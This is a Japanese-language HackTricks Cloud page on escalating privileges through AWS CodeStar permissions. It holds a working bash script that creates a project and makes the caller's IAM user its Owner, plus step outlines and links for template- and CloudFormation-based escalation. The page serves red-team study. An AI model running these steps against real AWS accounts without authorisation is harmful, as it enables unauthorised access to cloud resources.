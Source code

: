 # AWS - Codestar Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Codestar

codestarに関する詳細情報は以下で確認できます：

{% content-ref url="codestar-createproject-codestar-associateteammember.md" %}
[codestar-createproject-codestar-associateteammember.md](codestar-createproject-codestar-associateteammember.md)
{% endcontent-ref %}

### `iam:PassRole`, `codestar:CreateProject`

これらの権限を使用すると、**cloudformationテンプレート**を介して**任意のアクション**を実行するために**codestar IAMロールを悪用**できます。次のページを確認してください：

{% content-ref url="iam-passrole-codestar-createproject.md" %}
[iam-passrole-codestar-createproject.md](iam-passrole-codestar-createproject.md)
{% endcontent-ref %}

### `codestar:CreateProject`, `codestar:AssociateTeamMember`

この技術は、`codestar:CreateProject`を使用してcodestarプロジェクトを作成し、`codestar:AssociateTeamMember`を使用してIAMユーザーを新しいCodeStar **プロジェクト**の**所有者**にすることで、**いくつかの追加権限を持つ新しいポリシーを付与**します。
```bash
PROJECT_NAME="supercodestar"

aws --profile "$NON_PRIV_PROFILE_USER" codestar create-project \
--name $PROJECT_NAME \
--id $PROJECT_NAME

echo "Waiting 1min to start the project"
sleep 60

USER_ARN=$(aws --profile "$NON_PRIV_PROFILE_USER" opsworks describe-my-user-profile | jq .UserProfile.IamUserArn | tr -d '"')

aws --profile "$NON_PRIV_PROFILE_USER" codestar associate-team-member \
--project-id $PROJECT_NAME \
--user-arn "$USER_ARN" \
--project-role "Owner" \
--remote-access-allowed
```
もしあなたがすでに**プロジェクトのメンバー**であれば、権限**`codestar:UpdateTeamMember`**を使用して**役割をオーナーに更新**できます。`codestar:AssociateTeamMember`の代わりに。

**潜在的な影響:** codestarポリシーへのプライベートエスカレーション。以下のポリシーの例を見つけることができます：

{% content-ref url="codestar-createproject-codestar-associateteammember.md" %}
[codestar-createproject-codestar-associateteammember.md](codestar-createproject-codestar-associateteammember.md)
{% endcontent-ref %}

### `codestar:CreateProjectFromTemplate`

1. **新しいプロジェクトを作成:**
* **`codestar:CreateProjectFromTemplate`**アクションを利用して新しいプロジェクトの作成を開始します。
* 作成が成功すると、**`cloudformation:UpdateStack`**のアクセスが自動的に付与されます。
* このアクセスは、`CodeStarWorker-<generic project name>-CloudFormation` IAMロールに関連付けられたスタックを特に対象とします。
2. **ターゲットスタックを更新:**
* 付与されたCloudFormation権限を使用して、指定されたスタックを更新します。
* スタックの名前は通常、次の2つのパターンのいずれかに従います：
* `awscodestar-<generic project name>-infrastructure`
* `awscodestar-<generic project name>-lambda`
* 正確な名前は選択したテンプレートに依存します（例のエクスプロイトスクリプトを参照）。
3. **アクセスと権限:**
* 更新後、スタックに関連付けられた**CloudFormation IAMロール**に割り当てられた機能を取得します。
* 注意: これは本質的に完全な管理者権限を提供するものではありません。権限をさらに昇格させるためには、環境内の追加の誤設定されたリソースが必要になる場合があります。

詳細については、元の研究を確認してください: [https://rhinosecuritylabs.com/aws/escalating-aws-iam-privileges-undocumented-codestar-api/](https://rhinosecuritylabs.com/aws/escalating-aws-iam-privileges-undocumented-codestar-api/)。\
エクスプロイトは[https://github.com/RhinoSecurityLabs/Cloud-Security-Research/blob/master/AWS/codestar\_createprojectfromtemplate\_privesc/CodeStarPrivEsc.py](https://github.com/RhinoSecurityLabs/Cloud-Security-Research/blob/master/AWS/codestar\_createprojectfromtemplate\_privesc/CodeStarPrivEsc.py)で見つけることができます。

**潜在的な影響:** cloudformation IAMロールへのプライベートエスカレーション。

{% hint style="success" %}
AWSハッキングを学び、練習する：<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCPハッキングを学び、練習する：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してハッキングトリックを共有してください。**

</details>
{% endhint %}
